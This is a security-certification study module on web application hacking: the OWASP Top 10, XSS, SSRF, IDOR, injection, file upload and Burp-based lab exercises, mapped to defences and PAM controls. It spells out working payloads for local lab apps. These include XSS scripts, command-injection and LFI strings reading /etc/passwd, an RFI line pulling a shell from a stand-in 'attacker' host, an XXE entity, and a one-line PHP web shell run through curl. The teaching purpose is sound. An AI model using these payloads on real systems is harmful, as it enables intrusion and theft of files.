

# Module 14 — Hacking Web Applications

> **One-liner:** attacking the *application logic* running on top of the web server — input-handling flaws (XSS, injection, file upload), broken authentication/session management, access-control failures (IDOR), SSRF, and insecure deserialization. This is the module 13 (web *server*) attacks aim at the platform; this one aims at *your code*. SQL injection is big enough to get its own module ([15](../15-sql-injection/)).

> **📚 Study companions:** [Facts sheet](facts.md) · [Practice questions](practice-questions.md) · [Flashcards (Anki)](flashcards.csv) · [Lab walkthrough](lab-walkthrough.md)

## Exam focus

- The **CEH web-app hacking methodology**: footprint → analyze → attack (auth, session, access control, input validation, business logic, web services/APIs).
- **OWASP Top 10 (2021)** categories and what each means.
- **XSS** (stored, reflected, DOM-based) and where it executes.
- **CSRF** vs. SSRF — do not confuse them.
- **IDOR / broken access control** and privilege escalation via parameter tampering.
- **Command injection**, **file inclusion (LFI/RFI)**, **unrestricted file upload**, **directory traversal**.
- **XXE** (XML external entity) and **insecure deserialization**.
- **Broken authentication / session management**: fixation, prediction, token leakage.
- **Web services / API** attacks (REST/SOAP), **web shells**, **WAF evasion**.
- Tools: **Burp Suite**, **OWASP ZAP**, and the intercept-proxy workflow.

## Key concepts

### The methodology



### OWASP Top 10 (2021) — memorize the list

| # | Category |
|---|---|
| A01 | **Broken Access Control** (incl. IDOR) |
| A02 | Cryptographic Failures |
| A03 | **Injection** (SQLi, command, XSS is here too) |
| A04 | Insecure Design |
| A05 | Security Misconfiguration |
| A06 | Vulnerable & Outdated Components |
| A07 | Identification & Authentication Failures |
| A08 | Software & Data Integrity Failures (incl. insecure deserialization) |
| A09 | Security Logging & Monitoring Failures |
| A10 | **Server-Side Request Forgery (SSRF)** |

### XSS — three flavors (know where the payload lives)

| Type | Where the payload is stored | Trigger |
|---|---|---|
| **Stored (persistent)** | Saved server-side (DB, comment) | Runs for every viewer |
| **Reflected (non-persistent)** | Echoed back from the request | Victim clicks a crafted link |
| **DOM-based** | Never leaves the browser; client JS uses attacker-controlled DOM | Client-side sink (`innerHTML`, `eval`) |

XSS = **run script in the victim's browser** → steal cookies/session, keylog, pivot. Fix: **context-aware output encoding + CSP**, not just input filtering.

### CSRF vs. SSRF — the classic trap

| | CSRF | SSRF |
|---|---|---|
| Who is tricked | The **victim's browser** | The **server** |
| Direction | Forces the *user* to submit an action | Forces the *server* to make a request |
| Typical target | State-changing action (change email/password) | Internal services, cloud metadata (`169.254.169.254`) |
| Fix | Anti-CSRF tokens, SameSite cookies | Allow-list egress, block link-local/internal IPs |

### Access-control / IDOR

Changing `?account_id=1001` to `1002` and seeing someone else's data = **IDOR (Insecure Direct Object Reference)** = broken access control. It's the #1 OWASP category because it's so common and so damaging.

### Input-handling attacks quick map

| Attack | Payload idea | Impact |
|---|---|---|
| Command injection | `; whoami` / `\| id` in a param passed to a shell | RCE |
| LFI | `?page=../../../../etc/passwd` | Read local files, log-poison → RCE |
| RFI | `?page=http://attacker/shell.txt` | Remote code inclusion |
| Directory traversal | `../` sequences | Escape web root |
| Unrestricted file upload | Upload `shell.php` | Web shell → RCE |
| XXE | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | File read, SSRF, DoS |
| Insecure deserialization | Crafted serialized object | RCE / logic abuse |

### Web APIs, webhooks & web shells

- **Web API attacks (REST/SOAP/GraphQL):** broken object-level authorization (**BOLA/IDOR**), broken authentication, excessive data exposure, mass assignment, and missing rate limiting — see the **OWASP API Security Top 10** (distinct from the web Top 10).
- **Webhooks:** user-defined HTTP callbacks; risks include **SSRF**, missing **signature verification** (spoofed/forged events), and replay.
- **Web shells:** attacker-uploaded scripts (`.php` / `.aspx` / `.jsp`) giving remote command execution and persistence — the payoff of an unrestricted file upload (see the lab walkthrough).

## Key tools

| Tool | Purpose | Reference |
|---|---|---|
| Burp Suite | Intercepting proxy, Repeater/Intruder, scanner | https://portswigger.net/burp |
| OWASP ZAP | Open-source intercepting proxy + scanner | https://www.zaproxy.org/ |
| ffuf / gobuster | Content & parameter fuzzing | https://github.com/ffuf/ffuf |
| Nikto | Web server/app misconfig scanner | https://github.com/sullo/nikto |
| wpscan | WordPress-specific enumeration | https://wpscan.com/ |
| sqlmap | Automated SQLi (see Module 15) | https://sqlmap.org/ |
| commix | Automated command-injection | https://github.com/commixproject/commix |

## Commands & techniques (lab-ready)

> Targets are the docker web apps in this repo (DVWA, Juice Shop, WebGoat, bWAPP). See [`../../labs/docker-compose.yml`](../../labs/docker-compose.yml). Never point these at sites you don't own.

```bash
# --- Content & parameter discovery ---
ffuf -u http://localhost:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://localhost:8080 -w /usr/share/wordlists/dirb/common.txt -x php,txt

# --- Baseline misconfig / version scan ---
nikto -h http://localhost:8080

# --- Reflected XSS test payloads (try in DVWA / bWAPP inputs) ---
#   <script>alert(document.domain)</script>
#   ">            (attribute breakout)
#   javascript:alert(1)                        (href/DOM sink)

# --- Command injection (DVWA "Command Injection" page) ---
#   127.0.0.1; id
#   127.0.0.1 && cat /etc/passwd

# --- LFI / traversal ---
curl "http://localhost:8080/?page=../../../../etc/passwd"

# --- Upload a web shell (DVWA File Upload, low security) then hit it ---
# shell.php:  <?php system($_GET['c']); ?>
curl "http://localhost:8080/hackable/uploads/shell.php?c=id"

# --- Automated command injection ---
commix --url="http://localhost:8080/vuln.php?ip=127.0.0.1"
```

**The core workflow is manual and proxy-driven:** point your browser at Burp/ZAP, capture the request, send to **Repeater**, tamper one parameter at a time, and observe the response. Automation (sqlmap, commix, the scanner) confirms; the proxy is where you *understand*.

## Lab exercise

1. **Proxy everything:** run DVWA behind Burp. Log in, walk each vuln page, and read every request/response in the proxy history.
2. **XSS ladder:** land reflected XSS on DVWA "low", then defeat "medium" (broken filter) with an attribute-breakout payload. Move to stored XSS in the guestbook and confirm it fires for a second browser session.
3. **IDOR:** in Juice Shop, view your basket, then tamper the basket/user id and access another user's data — the textbook broken-access-control finding.
4. **Upload → shell:** on DVWA File Upload (low), upload `shell.php`, browse to it, and get command execution. Then raise the security level and watch the content-type/extension checks block you.
5. **Fix it:** for the command-injection page, note that the fix is *not* a blocklist — it's parameterization / avoiding the shell entirely. Compare DVWA "low" vs "impossible" source.

**What you should observe:** almost every finding traces to **trusting input** or **failing to check authorization**. The durable fixes are server-side: output encoding + CSP (XSS), parameterized calls (injection), and per-object authorization checks (IDOR).

## Defender & PAM mapping

| Attack | Detection signal | Control / PAM lever |
|---|---|---|
| XSS | Script-ish payloads in inputs, CSP report violations | Output encoding, **CSP**, HttpOnly + SameSite cookies, WAF |
| SQL / command injection | Error strings, `;`/`\|`/quote patterns, sudden RCE processes | Parameterized queries, avoid shell exec, least-privilege app/service account |
| IDOR / broken access control | Sequential-ID access to other users' objects | Server-side authorization checks, deny-by-default, object-level checks |
| SSRF | Server requests to internal/link-local IPs (169.254.169.254) | Egress allow-list, block metadata endpoint, IMDSv2 |
| Unrestricted file upload / web shell | New script file in upload dir, odd exec | Store uploads off web root, validate type server-side, no exec on upload dir |
| Broken auth / session | Credential stuffing, session fixation, token reuse | MFA, rotate + invalidate sessions, secure cookie flags |
| Web shell used for privilege pivot | App account running admin commands | **Run the app as a least-privilege service account**; no standing admin on web tier |

> **PAM playbook for this module:** the web tier is a bastion an attacker *will* eventually reach, so make the account it runs under worthless — **least-privilege service identity, no local admin, no reusable domain creds on the box, and JIT for any admin action**. Vault the DB/service credentials the app uses and rotate them; a leaked config or web shell then yields a short-lived, low-power identity instead of the keys to the tier. Full mapping in [`../../defender-pam/attack-to-control-matrix.md`](../../defender-pam/attack-to-control-matrix.md).

### 🔐 PAM engineering deep-dive (CyberArk)

Web apps leak secrets (config, connection strings) and expose privileged admin consoles. Remove the static secret with **CCP/Conjur**, and protect the admin console with **Secure Web Sessions**.

| This module's attack | CyberArk control | Component |
|---|---|---|
| Hardcoded DB/API creds in app config | Remove hardcoded creds; deliver at runtime | CCP / Conjur |
| SSRF → metadata / secret theft | Keep secrets off the instance | Conjur + IMDSv2 |
| Theft of a privileged web/admin console session | Record + protect web sessions | Secure Web Sessions |
| App runs with broad standing rights | Least-privilege app identity + rotate | CPM |

**Detection (privileged lens):** the app/service account behaving outside its baseline, SSRF to `169.254.169.254` — see [`../../defender-pam/detection-engineering.md`](../../defender-pam/detection-engineering.md).

**Engineering note:** pull every secret at runtime via **CCP/Conjur** so a web shell or LFI finds no credentials in `web.config` — and run the app under a least-privilege identity so a shell inherits nothing useful.

> Go deeper: [CyberArk mapping](../../defender-pam/cyberark-attack-mapping.md)

## Exam tips & gotchas

- **CSRF tricks the browser; SSRF tricks the server.** If the target of the forged request is *internal infrastructure / cloud metadata*, it's SSRF.
- **Stored XSS** hits every viewer; **reflected XSS** needs the victim to click a crafted link; **DOM XSS** never touches the server.
- **IDOR = broken access control (A01)** — the #1 OWASP category; it's an *authorization* bug, not an input bug.
- **Input filtering alone doesn't fix XSS** — you need **context-aware output encoding + CSP**.
- **LFI** reads local files; **RFI** pulls a remote file — RFI usually needs `allow_url_include` on.
- **Insecure deserialization** and **XXE** both live under integrity/misconfig — recognize the payload shapes.
- Know the difference between **A03 Injection** (SQLi/command/XSS) and **A10 SSRF** as distinct 2021 categories.

## Sources

- OWASP Top 10 (2021): https://owasp.org/Top10/
- OWASP Testing Guide (WSTG): https://owasp.org/www-project-web-security-testing-guide/
- OWASP Cheat Sheet Series (XSS, CSRF, SSRF, File Upload): https://cheatsheetseries.owasp.org/
- PortSwigger Web Security Academy: https://portswigger.net/web-security
- MITRE ATT&CK — Exploit Public-Facing Application (T1190): https://attack.mitre.org/techniques/T1190/
- MITRE CWE — Top 25 Most Dangerous Weaknesses: https://cwe.mitre.org/top25/
- OWASP ZAP: https://www.zaproxy.org/

---
### 📝 My lab log (fill in)
| Date | App / page | Vuln & payload | Result / fix noted |
|---|---|---|---|
|  |  |  |  |
